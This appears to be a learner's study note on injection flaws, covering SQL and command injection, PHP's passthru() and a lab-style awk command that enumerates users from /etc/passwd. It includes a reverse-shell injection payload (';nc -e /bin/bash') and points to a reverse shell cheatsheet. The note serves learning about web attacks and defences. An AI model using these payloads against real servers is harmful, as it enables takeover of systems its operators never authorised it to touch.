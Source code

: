 injection flaws- occur because controlled input is interpreted as actual commands or parameters by application 
- depends on technologies 
- how exactly input is interpreted 

**SQL Injection:** This occurs when user controlled input is passed to SQL queries. As a result, an attacker can pass in SQL queries to manipulate the outcome of such queries. 

**Command Injection:** This occurs when user input is passed to system commands. As a result, an attacker is able to execute arbitrary system commands on application servers.

main defence for preventing injection attacks is ensuring that user controlled input is not interpreted as queries or commands. There are different ways of doing this:

- Using an allow list: when input is sent to the server, this input is compared to a list of safe input or characters. If the input is marked as safe, then it is processed. Otherwise, it is rejected and the application throws an error.
  
- Stripping input: If the input contains dangerous characters, these characters are removed before they are processed.

### command Injection 
- occurs when server side code like php in web app makes system call on hosting machine 

 The worst thing they could do would be to spawn a reverse shell to become the user that the web server is running as.  A simple `;nc -e /bin/bash` is all that's needed and they own your server; some variants of netcat don't support the -e option. You can use a list of [these](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) reverse shells as an alternative.

#### Active command injection
Blind command injection occurs when system command made to the server does not return response to the user in HTML DOC

Active command injection return response to user 

![[Pasted image 20250110200221.png]]

In pseudocode, the above snippet is doing the following:

1. Checking if the parameter "commandString" is set

2. If it is, then the variable `$command_string` gets what was passed into the input field

3. The program then goes into a try block to execute the function `passthru($command_string)`.  You can read the docs on `passthru()` on [PHP's website](https://www.php.net/manual/en/function.passthru.php), but in general, it is executing what gets entered into the input then passing the output directly back to the browser.

4. If the try does not succeed, output the error to page.  Generally this won't output anything because you can't output stderr but PHP doesn't let you have a try without a catch.

reference : https://www.php.net/manual/en/function.passthru.php
The **passthru()** function is similar to the [exec()](https://www.php.net/manual/en/function.exec.php) function in that it executes a `command`. This function should be used in place of [exec()](https://www.php.net/manual/en/function.exec.php) or [system()](https://www.php.net/manual/en/function.system.php) when the output from the Unix command is binary data which needs to be passed directly back to the browser.

A common use for this is to execute something like the pbmplus utilities that can output an image stream directly. By setting the Content-type to `image/gif` and then calling a pbmplus program to output a gif, you can create PHP scripts that output images directly.

#### Return Values [¶](https://www.php.net/manual/en/function.passthru.php#refsect1-function.passthru-returnvalues)

Returns **`[null](https://www.php.net/manual/en/reserved.constants.php#constant.null)`** on success or **`[false](https://www.php.net/manual/en/reserved.constants.php#constant.false)`** on failure.

#### Errors/Exceptions [¶](https://www.php.net/manual/en/function.passthru.php#refsect1-function.passthru-errors)

Will emit an **`[E_WARNING](https://www.php.net/manual/en/errorfunc.constants.php#constant.e-warning)`** if **passthru()** is unable to execute the `command`.

Throws a [ValueError](https://www.php.net/manual/en/class.valueerror.php) if `command` is empty or contains null bytes.



command to find How many non-root/non-service/non-daemon users are there?

`awk -F: '($3 >= 1000 && $3 < 65534) && $7 !~ /nologin|false/' /etc/passwd | wc -l`

### Explanation of the Command:

1. **`awk -F:`**: Use `:` as the field delimiter to parse the `/etc/passwd` file.
2. **`($3 >= 1000 && $3 < 65534)`**: Only consider users with a UID (User ID) in the range 1000 to 65533.
    - UID 0 is for `root`.
    - UIDs below 1000 are typically for system/service/daemon users.
    - UIDs 1000+ are for regular users.
    - UID 65534 is often reserved for `nobody`.
3. **`$7 !~ /nologin|false/`**: Exclude accounts with shells like `/sbin/nologin` or `/bin/false` (indicating disabled accounts).
4. **`/etc/passwd`**: The file listing user account details.
5. **`wc -l`**: Count the number of lines, giving the total number of matching users.


